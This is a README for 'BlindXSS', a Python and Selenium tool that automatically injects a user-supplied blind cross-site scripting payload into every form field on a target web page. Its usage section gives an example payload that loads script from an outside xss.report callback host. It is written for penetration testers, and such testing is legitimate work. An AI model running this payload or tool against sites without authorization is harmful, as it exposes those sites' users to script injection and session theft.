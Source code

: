 # BlindXSS - Automated Blind XSS Testing Tool

```
__________.__  .__            .___ ____  ___  _________ _________
\______   \  | |__| ____    __| _/ \   \/  / /   _____//   _____/
 |    |  _/  | |  |/    \  / __ |   \     /  \_____  \ \_____  \ 
 |    |   \  |_|  |   |  \/ /_/ |   /     \  /        \/        \
 |______  /____/__|___|  /\____ |  /___/\  \/_______  /_______  /
        \/             \/      \/        \_/        \/        \/ 

made by @hghost010
```

## 🎯 Description

BlindXSS is an automated web security testing tool designed to identify potential blind Cross-Site Scripting (XSS) vulnerabilities. The tool systematically injects XSS payloads into form inputs and interactive elements on web pages to help security researchers and penetration testers identify potential security weaknesses.

## ✨ Features

- **Automated Form Detection**: Automatically finds and tests input fields, textareas, select elements, and contenteditable elements
- **Comprehensive Testing**: Tests various HTML input types and interactive elements
- **Smart Navigation**: Handles form submissions and page redirections intelligently
- 
## 🔄 Immediate Updates (Next Few Days):

- Cookie Support - The main feature you mentioned for testing authenticated areas
- Enhanced Configuration - More customization options
- Improved Reporting - Better output and logging

## 🛠️ Requirements

### System Requirements
- Python 3.7+
- Chrome/Chromium browser
- Internet connection

### Python Dependencies
```
selenium>=4.0.0
webdriver-manager>=3.8.0
colorama>=0.4.4
```

## 📦 Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/Hghost0x00/Blind_XSS.git
   cd Blind_XSS
   ```

2. **Install Python dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Verify Chrome/Chromium installation:**
   - The tool uses webdriver-manager to automatically download and manage ChromeDriver
   - Ensure Chrome or Chromium is installed on your system

## 🚀 Usage

1. **Run the tool:**
   ```bash
   python bxss.py
   ```

2. **Enter target URL:**
   ```
   Enter the target URL: https://example.com/login
   ```

3. **Provide XSS payload:**

Enter your blind XSS payload: '"><script src=https://xss.report/c/__your_username__></script>

Tip: Using `xss.report` payloads is one of the easiest ways to use this tool. Simply create a free account and use your personalized payload.

4. **Monitor the testing process:**
   - The tool will automatically find and test all interactive elements


## 🐛 Troubleshooting

### Common Issues

**ChromeDriver not found:**
- Solution: The webdriver-manager should handle this automatically. If issues persist, manually install ChromeDriver.

**Permission denied errors:**
- Solution: Run with appropriate permissions or check Chrome installation.

**Timeout errors:**
- Solution: Increase the timeout values in the script for slower websites.



## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- Created by [@hghost010](https://x.com/hghost010)
- Built with Selenium WebDriver
- Uses webdriver-manager for Chrome driver management

## ⭐ Support

If you find this tool helpful, please consider:
- ⭐ Starring the repository
- 🐛 Reporting bugs and issues
- 💡 Suggesting new features
- ☕ Buy me a coffee: 2CZhBKWbacJyVs7k7BJiC3ay4tq3HsPtUysMeSqjRRd4 (Solana)
